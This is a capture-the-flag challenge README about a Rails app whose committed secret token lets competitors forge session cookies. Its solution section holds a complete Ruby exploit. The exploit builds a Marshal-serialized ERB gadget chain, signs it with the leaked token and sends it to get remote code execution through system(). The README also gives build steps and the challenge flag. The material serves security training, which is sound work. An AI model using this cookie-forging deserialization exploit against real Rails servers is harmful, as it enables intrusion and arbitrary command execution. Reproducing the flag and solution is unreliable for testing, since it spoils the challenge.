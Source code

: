 # Open Source Key Leak

It was (maybe still is?) common for Rails newbs and experts to check the config/secret_key.rb file into their version control system. We did this previously (https://github.com/mitre-cyber-academy/2013-web-400). The original challenge was vulnerable to a SQL injection -- this has been patched, but we are leaving the secret key the same. Usernames, passwords, and the key have also changed. By crafting a cookie using the secret key, competitors can take advantage of a remote code execution by passing a "legit" cookie, having it get un-serialized, and then the code contained in the cookie get executed.


## Solution

Solution credit: http://robertheaton.com/2013/07/22/how-to-hack-a-rails-app-using-its-secret-token/

    require "net/http"
    require "uri"
    require 'erb'
    require 'base64'
    require 'openssl'

    module ActiveSupport
      module Deprecation
        class DeprecatedInstanceVariableProxy
          def initialize(instance, method, var, deprecator)
            @instance = instance
            @method = method
            @var = var
            @deprecator = deprecator
          end
        end
      end
    end


    secret_token = 'c95f554820d160cac5792840a37900b98b30cd61f7dc7260a7532a8ffe15f46ddfd1e9005d648119a4f77d7f4221cb19ee6ef7d0bd4e08a42436502c212e9848'

    erb = ERB.allocate
    erb.instance_variable_set(:@src, 'thing = Message.first.body; system("echo #{thing} >> public/flag.txt");')

    proxy = ActiveSupport::Deprecation::DeprecatedInstanceVariableProxy.new(erb, :result, "foo", ActiveSupport::Deprecation)
    my_evil_session_hash = {proxy => 'something'}

    # Serialize your hash
    marshal_dump = Marshal.dump(my_evil_session_hash)

    # Base64 encode this dump
    unescaped_cookie_value = Base64.encode64(marshal_dump).gsub("\n", "")

    # Escape any troublesome characters and remove line breaks altogether
    escaped_cookie_value = CGI.escape(unescaped_cookie_value).gsub("%0A", "")

    # Calculate the signature using the HMAC digest of the secret_token and the escaped cookie value. Replace %3D with equals signs.
    cookie_signature = OpenSSL::HMAC.hexdigest(OpenSSL::Digest::SHA1.new, secret_token, escaped_cookie_value.gsub("%3D", "="))

    # Construct your evil cookie by concatenating the value with the signature
    my_evil_cookie = "_rails_messaging_app_session=#{unescaped_cookie_value}--#{cookie_signature}"

    # BOMBS AWAY
    url = URI.parse("http://localhost:80/") # Make sure you have a trailing / if you are sending to the root path

    req = Net::HTTP::Get.new(url.path)
    req.add_field("Cookie", my_evil_cookie)

    res = Net::HTTP.new(url.host, url.port).start do |http|
        http.request(req)
    end

    puts res.inspect


## Building/Running the Challenge

    git clone
    ...
    docker-compose up --build -d
    # Wait a minute...
    docker-compose run  --rm web /bin/bash -c "bundle exec rake db:create RAILS_ENV=production && bundle exec rake db:migrate RAILS_ENV=production && bundle exec rake db:seed RAILS_ENV=production"

**Competitors will also need to be informed that the file they create needs to have a name longer than 25 characters.**

This project uses the new format of the docker-compose file, which must be installed from https://github.com/docker/compose/releases and requires a version 1.7 or greater.

## Flag

763d661f088cbd9e83ed2d3f6c4865cca6f1d284